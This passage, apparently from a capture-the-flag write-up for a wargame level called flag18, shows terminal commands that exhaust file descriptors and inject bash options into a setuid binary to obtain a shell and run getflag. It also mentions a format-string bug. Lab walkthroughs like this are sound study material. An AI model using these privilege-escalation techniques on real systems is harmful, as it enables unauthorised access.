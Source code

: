         --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
{% endcodeblock %}

We used `closelog` to close one used descriptor and the shell is invoked,
unfortunately we need to get rid of -d parameter too, bash is recycling
our argv, see `execve("/bin/sh", argv, envp);`. 

We tried `--init-file` as it has the second argument some file:

{% codeblock %}
sh-4.2$ ulimit -n 5

sh-4.2$ /home/flag18/flag18 --init-file -d /dev/tty -vvv
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'n'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 't'
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
Starting up. Verbose level = 3
login
got [login] as input
attempting to login
login
got [login] as input
attempting to login
logged in successfully (without password file)
closelog
got [closelog] as input
shell
id
uid=981(flag18) gid=1019(level18) groups=981(flag18),1019(level18)
getflag
You have successfully executed getflag on a target account
{% endcodeblock %}

Second way is to use format string exploitation, line 48 is vulnerable at `notsupported()` function.

For debugging, we downloaded `gdb-peda`:
